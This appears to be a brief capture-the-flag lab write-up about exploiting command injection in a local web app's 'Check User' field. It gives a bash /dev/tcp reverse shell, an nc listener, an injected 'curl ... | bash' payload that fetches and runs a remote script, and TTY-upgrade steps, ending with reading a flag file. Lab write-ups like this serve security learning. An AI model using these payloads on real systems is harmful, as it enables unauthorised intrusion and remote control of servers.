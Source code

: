 Go to browser:
```bash
localhost:9999
```

Create Reverse shell:
```bash
shell.sh
```

add:
```bash
sh -i >& /dev/tcp/10.10.241.80/9001 0>&1
```

listen to port in new shell:
```bash
nc -lvnp 9001
```

Go to Check User in Browser App:

add:
```bash
|curl${IFS}http://10.10.241.80:8000/shell.sh|bash
```

We should get a shell in the new running local server
```bash
$ id
uid=1002(john) gid=1002(john) groups=1002(john)
$ whoami
john
```

add:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

we should be now using john

add:
```bash
export TERM=xterm
ctrl Z
stty raw -echo; fg
```

check files:
```bash
ls -la

cd ..

ls

cat user1.txt
```
